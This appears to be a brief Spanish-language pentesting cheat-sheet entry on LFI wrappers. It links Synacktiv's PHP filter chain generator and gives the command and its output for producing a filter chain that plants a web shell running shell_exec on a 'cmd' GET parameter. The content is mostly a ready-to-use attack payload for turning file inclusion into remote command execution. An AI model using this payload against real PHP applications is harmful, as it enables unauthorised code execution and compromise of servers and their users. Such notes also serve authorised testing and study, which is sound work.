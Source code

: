 ### Wrappers de LFI

URL = [Generated Payload Code GitHub](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)

Si queremos por ejemplo crear un parametro llamado `cmd` que ejecute cualquier comando que le pongamos, seria de la siguiente forma...

```shell
python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
```

Info:

```
[+] The following gadget chain will generate the following code : <?php echo shell_exec($_GET["cmd"]);?> (base64 value: PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWyJjbWQiXSk7Pz4)
```
